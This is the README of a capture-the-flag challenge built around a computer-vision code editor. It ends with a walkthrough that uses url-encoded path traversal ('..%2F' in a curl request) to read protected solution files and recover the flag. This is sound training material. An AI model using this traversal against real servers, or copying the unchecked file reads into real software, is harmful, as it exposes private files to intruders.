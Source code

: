 # challenge-cvedu

This challenge is about secure file access and injection of special chars in paths.

You are presented with an online code editor for computer vision. The editor allows Visual Programming, where every blocks represents a pure function. You are able to connect every block input and outputs with dragging.

![blocks](blocks.png)

When selecting (by clicking) a block you are able to edit its Typescript code using the embedded Monaco editor. Once you select the play button it will compile the code and run it in the selected block.

![code](code.png)

The goal of a normal user is to write the missing parts of the block's code, building a chroma key algorithm.

If the user gets stuck he's able to click the *SOLUTION* button, that completes the missing parts of the code, giving the intended solution. This functionality is protected by a password, that is expected to be given to the student by the teacher. To prevent a user from guessing the password (in the security challenge context) it is generated from a random source.

The challenge that a user has to face is retrieve the solutions for the blocks code, without knowing the password. Once the user reads the solutions he will found the flag as a comment in the code.

## Project Structure

The project is managed using Lerna workspaces and is divided as following:

- `packages/backend`: The code for the backend, written for Node.JS using Express
- `packages/common`: Types and common code for the backend and the frontend
- `packages/frontend`: The code for the frontend, build using create-react-app

When in production mode the Express app server the static files for the React App.

## Instructions

For __development__ it's possible to use the live reload feature, using the `yarn dev` script.

For __production__ it's suggested to use Docker:

```bash
docker build -t challenge-cvedu .
docker run -p8080:8080 challenge-cvedu
```

This will start the server and expose the pages on port 8080.

### WARNING: Usage behind a reverse proxy

This challenge is based on exploiting url-encoded paths. Therefore it relies on having the url passed as there are to the backend.
I have noticed that, under some type of configurations, reverse proxies like Nginx are escaping urls before sending it to the target server. This makes the challenge unsolvable. Please make sure that the server is NOT url decoding the urls.

In Nginx, for example, it's necessary to omit the trailing slash from the `proxy_pass` rule.

## Exploit

When inspecting the request made by the client to the backend we can gain some insights about the interactions. There are XHR calls to three endpoints:

- `GET /templates`: retrieves all the blocks configuration
- `GET /template/:type/code`:  called for each block, retrieves the template code for that block
- `POST /template/:type/solution`: called when entering a solution password, tries to get the solution, returns 403 with wrong password

![requests](requests.png)

The big assumption that we have to make is about how the data is retrieved inside the server:

- If we have some kind of __database__ we may attack using SQL Injection
  - *We quickly rule out this hypothesis, since injecting any SQL string does not yields any effect*
- If the developer was lazy enough we may think that he's __reading files__ directly from the disk, using the files API.
  - If this is the case, we know that it's a pretty common mistake to not check the paths that we are reading. We assume no path escaping.
  - Since we have endpoints for code and solutions, we assume two directories at the same level with the same names.

Since it requires no password, we try to exploit the `GET /template/:type/code` HTTP command. We inject a path traversal, url escaped to prevent the router from failing to recognize it:

```bash
curl https://test.giuliozausa.dev/template/..%2Fsolutions%2FChromaComposite/code
```

Response:

```json
{"status":"ok","data":"// Enjoy your green screen!\n// Flag: DOTDOTSLASH-GOES-BRRR\n\nfunction ChromaComposite({\n  Mask,\n  FrameA,\n  FrameB,\n}: {\n  Mask: { data: boolean[]; width: number; height: number };\n  FrameA: ImageData;\n  FrameB: ImageData;\n}): { Frame: ImageData } {\n  // Copia i pixel dell'immagine\n  const newData = new ImageData(FrameA.width, FrameA.height);\n\n  for (let i = 0; i < FrameA.data.length; i += 4) {\n    if (Mask.data[i / 4]) {\n      newData.data[i] = FrameA.data[i];\n      newData.data[i + 1] = FrameA.data[i + 1];\n      newData.data[i + 2] = FrameA.data[i + 2];\n    } else {\n      newData.data[i] = FrameB.data[i];\n      newData.data[i + 1] = FrameB.data[i + 1];\n      newData.data[i + 2] = FrameB.data[i + 2];\n    }\n\n    newData.data[i + 3] = 255;\n  }\n\n  return { Frame: newData };\n}\n"}
```

We got our flag, that was hidden under a solution!

### Feedback from users

I have let some users try the challenge to gather some insights about its difficulty. I have found out that, without the source code or any info about the server file-reading behaviour, it can be really difficult to solve. It may be a good idea to suggest the users the fact that the server is reading files in two folders: `codes` and `solutions`.
